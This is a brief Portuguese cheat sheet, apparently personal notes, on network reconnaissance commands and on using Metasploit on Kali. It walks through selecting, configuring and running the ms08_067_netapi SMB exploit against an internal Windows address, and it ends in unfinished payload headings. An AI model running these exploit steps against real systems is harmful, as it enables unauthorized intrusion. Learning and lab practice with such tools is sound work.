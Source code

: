 Ferramentas
Encontrar IPs na REDE
$netstat -nat

Ver meu IP
$ifconfig

-DNSENUN (Lista DNS)
$dnsenum -enum google.com

Dicas (Explora uma falha e injeta (Um Payload))
-Exploit (Shell, VNC, Meterpreter)
##Comandos
**Start the Kali PostgreSQL Service
root@kali:~# service postgresql start

**Initialise the Metasploit PostgreSQL Database
root@kali:~# msfdb init

**Initialise the Metasploit PostgreSQL Database
root@kali:~# msfdb init

**Inicia po console
root@kali:~# msfconsole

**Verificar Conexao
msf > db_status
[*] postgresql connected to msf

**Fazer Buscas
msf > search -h
EXEMPLO
msf > search cve:2015 type:exploit app:client
msf > search Internet Explore
msf > search netapi
msf > use exploit/windows/smb/ms08_067_netapi 
msf exploit(ms08_067_netapi) > 
msf exploit(ms08_067_netapi) > show options

**Configurando o Exploit
msf exploit(ms08_067_netapi) > set RHOST 10.0.0.3
RHOST => 10.0.0.3
msf exploit(ms08_067_netapi) > show options

Module options (exploit/windows/smb/ms08_067_netapi):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOST    10.0.0.3         yes       The target address
   RPORT    445              yes       The SMB service port
   SMBPIPE  BROWSER          yes       The pipe name to use (BROWSER, SRVSVC)


Exploit target:

   Id  Name
   --  ----
   0   Automatic Targeting


msf exploit(ms08_067_netapi) > run (Para Executar)


-Payload(Payload = Codigo que executa uma tarefa)
-Framework	




















